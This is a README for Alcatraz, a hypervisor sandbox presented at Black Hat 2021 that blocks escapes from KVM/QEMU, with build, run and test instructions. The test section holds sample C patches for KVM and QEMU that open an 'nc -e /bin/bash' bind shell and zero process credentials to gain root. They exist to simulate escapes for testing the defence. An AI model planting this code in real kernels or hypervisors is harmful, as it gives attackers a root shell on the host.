




```txt
            __    _     __     __   _____  ___    __   ____       
           / /\  | |   / /`   / /\   | |  | |_)  / /\   / /    
          /_/--\ |_|__ \_\_, /_/--\  |_|  |_| \ /_/--\ /_/_ 
                                                                 
                   /=[-----]                                    
                  [| |  [] |                                    
                 /||.|     |_ _    _       _. -._               
                | \| |  '` '-' '--''---`'-' | U |      /\       
         .      |  Y |  []   --   [}   --  {} ..|    ,'Y \ /\   
        / \     | [] |       []    '   {} '   {}|   /. / .Y '\  
       / Y '\   |.   |  []    `   [} `     {} ..|._,', Y /_,._/ 
     _'\.__,.-.-(  []|       [}        {}       || /`-,        
              ;`~T . |  [] '    ` [}    _,'-_,.-(^) ,-'@@#   ~~ 
             #;'~~l {|       [}    ,.-'`'~~~'~ -` @@a@@#      
        ^^^  #;\~~/\{|  []     _,'-~~~~~ '~~_.,` @@@aa@@#     
            #a;\~~~/\|  _,.-'`~~~~~~_..-'' aaa@@@&&&@@##      
      ~~    ##a; \~~( Y``~~ Y~~~~ / `,  aaaa@@@@aa@@@##  ^^^^ 
           #aa `._~ /~ L~\~~_./'` aaa@@@@$$@@@&&@##           
          #a@@@Aaaa'--..,-'`aa@@@@@&&@@@aa@@@@#    ~~         
           ##@@&&@@@AA@@@@@@@@@@&&@@@@A@@@@@##                
             #@@@@@$$@@@AA@@@a@@@&&@@@@@##                    
                ##@aaAAA@@AAAa####        ^^^                 
           ^^^       #aaAAaa@                                 
                        ~~                                    
                                                           
      A Practical Hypervisor Sandbox to Prevent Escapes from
            the KVM/QEMU and KVM-based MicroVMs v1.0.0               
```

# 1. Notice
## 1.1. Presentation and Demo
Alcatraz is a practical hypervisor sandbox to prevent escapes from the KVM/QEMU and KVM-based MicroVMs. It was introduced at the security conference below.
 - [Black Hat USA 2021](https://www.blackhat.com/us-21/briefings/schedule/index.html#alcatraz-a-practical-hypervisor-sandbox-to-prevent-escapes-from-the-kvmqemu-and-kvm-based-microvms-22875)

You can watch the demo video below.
 - [Demo](https://youtu.be/ZGFJO7YaELw): It shows Alcatraz can detect and prevent various types of escapes.

<p align="center">

</p>

## 1.2. Contributions
I always welcome your contributions. Issue reports, bug fixes, or even new feature implementations are good. Feel free to send me. 

## 1.3. License
Alcatraz has GPL v2+ license.

# 2. Introduction of Alcatraz
Since DevOps and serverless architecture emerged, cloud vendors have supported container services as well as traditional virtual machine (VM) services. A traditional VM is strongly isolated from a host machine because a Virtual Machine Monitor (VMM), aka hypervisor, splits it with virtualized hardware. In contrast, a container uses kernel-level isolation techniques such as namespace and cgroup. They make containers faster than VMs. However, containers share the host kernel, so attackers can escape from the container with a kernel vulnerability.

Recent containers leverage hypervisor technology to overcome this problem. Kata container uses KVM/QEMU to isolate containers. Amazon's Firecracker makes microVMs that use a KVM-based lightweight hypervisor for isolation. Google's gVisor also uses the lightweight hypervisor with a user-level kernel. These architectures provide strong isolation, but there is still room for improvement. Attackers can still escape from them directly with a KVM vulnerability since KVM runs in the hypervisor privilege (Ring -1). Many researchers have tried to protect the hypervisor by getting System Management Mode (SMM, Ring -2) and monitoring it. However, they needed BIOS/UEFI firmware modification.

Due to this environment, I made Alcatraz that is a new and practical hypervisor sandbox to prevent escapes from the KVM/QEMU and KVM-based microVMs. Alcatraz consists of Hyper-box and a tailored kernel. Hyper-box is a pico hypervisor made from scratch to isolate KVM. Unlike others, it becomes the host hypervisor (Ring -1) and downgrades KVM's privilege to the guest hypervisor (Ring 0). Hyper-box has nested hypervisor functions for sandboxing the KVM and does not need SMM or firmware modification. It also monitors all system calls to prevent escapes and unauthorized privilege escalations. A tailored Linux kernel removes legacy system calls to reduce the attack surface and cooperate with Hyper-box. Alcatraz can be used on laptops, desktops, and servers that run untrusted code in VMs and microVMs.

## 2.1. Architecture of Alcatraz
I explain the architecture of Alcatraz. I didn't take the higher ground like other works. Instead, I made a sandbox with my pico hypervisor, Hyper-box, and downgraded the KVM's privilege to a guest hypervisor like below.

<p align="center">

</p>

Hyper-box has core mechanisms to prevent escapes. Firstly, it uses memory and register protection techniques of Intel VT (Virtualization Technology). It leverages Extended Page Table (EPT) and control register (CR) monitoring features and protects unauthorized code and read-only data areas. Secondly, it also uses hardware breakpoints to monitor all system calls and prevent unauthorized behaviors like process creation and privilege escalation. Lastly, it emulates VMX (Virtual Machine Extensions) instructions of KVM. KVM cannot execute VMX instructions because Hyper-box downgrades its privilege to the Ring 0. So, Hyper-box runs them with VMCS shadowing and VPID features of Intel VT instead.

Tailored Linux kernel is a recompiled version of the original one. I removed legacy system call interfaces to reduce the attack surface. I also removed the feature for runtime code modification because Hyper-box protects code and RO data for preventing escapes.

If you want to know more about Alcatraz, please see my presentation at [Black Hat USA 2021](https://www.blackhat.com/us-21/briefings/schedule/index.html#alcatraz-a-practical-hypervisor-sandbox-to-prevent-escapes-from-the-kvmqemu-and-kvm-based-microvms-22875).


# 3. How to Build 
## 3.1. Build a Tailored Linux Kernel (Ubuntu 20.04)
Alcatraz consists of Hyper-box and a tailored Linux kernel. To make the tailored one, please follow the commands below.

```bash
# Prepare kernel source and build environment.
# 5.8.0-44-generic is recommended, but higher versions are also fine.
$> sudo apt-get install linux-image-5.8.0-44-generic
$> sudo apt-get install linux-modules-extra-5.8.0-44-generic
$> sudo apt-get build-dep linux-image-unsigned-5.8.0-44-generic 
$> sudo apt-get install linux-headers-5.8.0-44-generic ncurses-dev
$> apt-get source linux-image-unsigned-5.8.0-44-generic

# Make new .config file.
$> cd linux-hwe-5.8-5.8.0
$> cp /boot/config-5.8.0-44-generic .config
$> make menuconfig
# Load the .config file using the "Load" menu and save it to .config using the "Save" menu.

# Change .config file to tailor the kernel.
$> sed -i 's/CONFIG_JUMP_LABEL=y/# CONFIG_JUMP_LABEL is not set/g' .config
$> sed -i 's/CONFIG_IA32_EMULATION=y/# CONFIG_IA32_EMULATION is not set/g' .config
$> sed -i 's/CONFIG_COMPAT=y/# CONFIG_COMPAT is not set/g' .config
$> sed -i 's/CONFIG_COMPAT_32=y/# CONFIG_COMPAT_32 is not set/g' .config
$> sed -i 's/CONFIG_X86_X32=y/# CONFIG_X86_X32 is not set/g' .config
$> sed -i 's/CONFIG_X86_X32_ABI=y/# CONFIG_X86_X32_ABI is not set/g' .config

# Build the kernel and modules.
$> make -j8; make modules

# Install the kernel and modules.
$> sudo make modules_install
$> sudo make install

# Reboot and boot with the tailored Linux kernel.
$> sudo reboot
``` 

## 3.2. Build Hyper-box Modules
Hyper-box is a loadable kernel module (LKM), so it has to be built with the tailored Linux kernel. Please check if you booted your system with it first and follow the below commands.

```bash
# Prepare Hyper-box source and required packages.
$> sudo apt-get install nasm git
$> git clone https://github.com/kkamagui/alcatraz.git

# Move to the Alcatraz directory and build it.
$> cd alcatraz
$> make
... omitted ...

# Show Hyper-box modules.
$> ls hyper_box
hyper_box.ko ...

$> ls hyper_box_helper
hyper_box_helper.ko ...
```

# 4. How to Use
## 4.1. How to Run
As I mentioned above, the Hyper-box of Alcatraz is a loadable kernel module. So, you need to load the hyper\_box.ko and hyper\_box\_helper.ko modules with the insmod command.
```bash
# Move to the Alcatraz directory and load two modules.
$> sudo insmod hyper_box/hyper_box.ko
$> sudo insmod hyper_box_helper/hyper_box_helper.ko
``` 
<p align="center">

</p>

After Hyper-box is loaded, it monitors and prevents unauthorized behaviors like code modifications, process creations, and privilege escalations. If you want to watch a demo video, please check the link, [Demo](https://youtu.be/ZGFJO7YaELw).

## 4.2. Nested Virtualization Support
Maybe you want to run the KVM on a KVM/QEMU guest machine. It is called nested virtualization, and Alcatraz supports this feature. However, you have to turn off the VMCS shadowing feature of the host KVM because Alcatraz already owns the feature. To run multiple VMs inside of a VM, please execute the following commands.

```bash
# Unload kvm_intel module.
$> sudo rmmod kvm_intel

# Load kvm_intel module with disabling the VMCS shadowing feature.
$> sudo modprobe kvm_intel enable_shadow_vmcs=0

# Move to the Alcatraz directory and load two modules.
# After that, you can run the KVM on a guest machine with Alcatraz.
$> sudo insmod hyper_box/hyper_box.ko
$> sudo insmod hyper_box_helper/hyper_box_helper.ko
```
<p align="center">

</p>


# 5. How to Test
The exploitation is a complicated process and needs much effort. To reduce the complexity of it, I assume that the attacker already gets the control flow and can execute small shellcode. Then, I add some exploitation code to the KVM and QEMU directly. If you want to make exploitations closer to the real world, please choose the vulnerable versions of Linux kernel and QEMU and execute the shellcode of sample exploitations below.

## 5.1. Sample code for KVM exploitations
```C
/*
 * This code is for KVM exploitations.
 *
 * Please add code below to arch/x86/kvm/x86.c.
 *
 */

... omitted ...

#define LOG_ATTACKER 			"attacker:"
#define TYPE_CREATE_PROCESS		0
#define TYPE_PRIVILEGE_ESCALATION 	1

/* Sample exploitation function. */
static void kvm_exploit(int type)
{
	/* Process name and arguments you want to create. */
	static char *argv[] = {
		"/bin/nc", "-e", "/bin/bash", "-l", "-p", "9998",
		NULL };
	static char *envp[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/bin:/usr/sbin:/usr/bin:",
		NULL };
	struct cred *old;
	int ret;
	int i;

	/* Create a process. */
	if (type == TYPE_CREATE_PROCESS)
	{
		pr_err(ATTACKER"Create a process. Current[%s, PID:%d], parent[%s, PID:%d]\n",
			current->comm, current->pid, current->group_leader->comm,
			current->group_leader->pid);

		ret = call_usermodehelper(argv[0], argv, envp, UMH_NO_WAIT);
	}
	/* Escalate the current privilege. */
	else
	{
		pr_err(ATTACKER"Privilege escalation. Current[%s, PID:%d], parent[%s, PID:%d]\n",
			current->comm, current->pid, current->group_leader->comm,
			current->group_leader->pid);

		for (i = 0 ; i < 2 ; i++)
		{
			if (i == 0)
			{
				old = (struct cred *)current->group_leader->cred;
			}
			else
			{
				old = (struct cred *)current->group_leader->real_cred;
			}

			old->uid.val = 0;
			old->gid.val = 0;
			old->suid.val = 0;
			old->sgid.val = 0;
			old->euid.val = 0;
			old->egid.val = 0;
		}
	}
}

int kvm_arch_vcpu_ioctl_run(struct kvm_vcpu *vcpu)
{
	struct kvm_run *kvm_run = vcpu->run;
	int r;

	vcpu_load(vcpu);
	kvm_sigset_activate(vcpu);
	kvm_load_guest_fpu(vcpu);

	... omitted ...

	/* ================================================ */
	/* Add code here to simulate an IOCTL exploitation. */
	/* ================================================ */
	/* For creating a process. */
	kvm_exploit(TYPE_CREATE_PROCESS);

	/* For escalating the current privilege. */
	kvm_exploit(TYPE_PRIVILEGE_ESCALATION);

	if (kvm_run->immediate_exit)
		r = -EINTR;
	else
		r = vcpu_run(vcpu);

out:
	kvm_put_guest_fpu(vcpu);
	if (kvm_run->kvm_valid_regs)
		store_regs(vcpu);
	post_kvm_run_save(vcpu);
	kvm_sigset_deactivate(vcpu);

	vcpu_put(vcpu);
	return r;
}

```

## 5.2. Sample code for a QEMU exploitation

```C
/*
 * This code is for a QEMU exploitation.
 *
 * Please add code below to accel/kvm/kvm-all.c.
 *
 */

... omitted ...

/* Sample exploitation function. */
void qemu_escape(void)
{
	static char *argv[] = {
		"/bin/nc", "-e", "/bin/bash", "-l", "-p", "9998",
		NULL };
	char* env[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/bin:/usr/sbin:/usr/bin:", NULL };

	if (fork() == 0)
	{
		execve(argv[0], argv, env);
	}
}


int kvm_cpu_exec(CPUState *cpu)
{
    struct kvm_run *run = cpu->kvm_run;
    int ret, run_ret;

    DPRINTF("kvm_cpu_exec()\n");

    if (kvm_arch_process_async_events(cpu)) {
        atomic_set(&cpu->exit_request, 0);
        return EXCP_HLT;
    }

    qemu_mutex_unlock_iothread();
    cpu_exec_start(cpu);

    do {
        ... omitted ...

        /* ============================================ */
        /* Add code here to simulate QEMU exploitation. */
        /* ============================================ */
        qemu_escape();

        trace_kvm_run_exit(cpu->cpu_index, run->exit_reason);
        switch (run->exit_reason) {
        case KVM_EXIT_IO:
            DPRINTF("handle_io\n");
            /* Called outside BQL */
            kvm_handle_io(run->io.port, attrs,
                          (uint8_t *)run + run->io.data_offset,
                          run->io.direction,
                          run->io.size,
                          run->io.count);
            ret = 0;
            break;

        ... omitted ...
```

# = Caution =
Hyper-box of Alcatraz protects kernel code, read-only data, system table, privilege register, etc. So, it would help if you considered disabling the below features.

 * System power management (hibernate and suspend)
   * Some machines may modify protected areas while hibernating and suspending.
 * Module unloading
   * Hyper-box protects the module's code and read-only data. So, if you unload modules, it may cause problems. Please don't unload modules or set HYPERBOX\_USE\_MODULE\_PROTECTION to 0 of hyper\_box.h file if you really want to do it.
